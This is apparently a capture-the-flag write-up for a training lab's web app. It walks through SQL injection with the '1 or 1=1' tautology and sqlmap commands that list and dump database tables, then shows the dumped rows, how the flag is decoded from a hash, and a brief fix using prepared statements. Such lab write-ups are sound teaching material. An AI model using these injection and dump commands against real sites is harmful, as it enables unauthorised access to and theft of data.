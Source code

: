 # 01_Unsercure_Search_By_Id_SQLINJECTION

Unsecure sql request form in the page:
http://192.168.99.100/index.php?page=member

## How to see it

Go on the page mentionned before.
Whenever you are looking for an SQL injection you want to check if the page is injectable. You can either check this with sqlmap
or you can try to type an SQL request responding true everytime such like this one:
```bash
1 or 1=1
```
Whenever we type this one we realise that this page can be injected. This is a major security problem.

## How to abuse of it

We are going to use a tool which will help us to inject this sql. It is Sqlmap.
So we can basically print the list of the database that we are intersted in with this command:
```bash
sqlmap -u "http://192.168.99.100/?page=searchimg&id=1&Submit=Submit#" --tables
```
Then we can make a dump of the database we are interested in, so the user one:
```bash
sqlmap -u "http://192.168.99.100/?page=searchimg&id=1&Submit=Submit#" --dump -T list_images
```
And here we are now we can decrypt the password with the asked in the command request:
```bash
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| id | url                              | title     | comment                                                                                                               |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
| 1  | https://www.nsa.org/img.jpg      | Nsa       | An image about the NSA !                                                                                              |
| 2  | https://www.42.fr/42.png         | 42 !      | There is a number..                                                                                                   |
| 3  | https://www.google.fr/google.png | Google    | Google it !                                                                                                           |
| 4  | https://www.obama.org/obama.jpg  | Obama     | Yes we can !                                                                                                          |
| 5  | borntosec.ddns.net/images.png    | Hack me ? | If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46 |
| 6  | https://www.h4x0r3.0rg/tr0ll.png | tr00l     | Because why not ?                                                                                                     |
+----+----------------------------------+-----------+-----------------------------------------------------------------------------------------------------------------------+
```

```bash
1928e8083cf461a51303633093573c46 -> albatroz -> f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188
```

## How to patch it

Don't use dynamic SQL – don't construct queries with user input: Even data sanitization routines can be flawed.
So use prepared statements, parameterized queries or stored procedures instead whenever possible. ORM IS GOOD USE IT
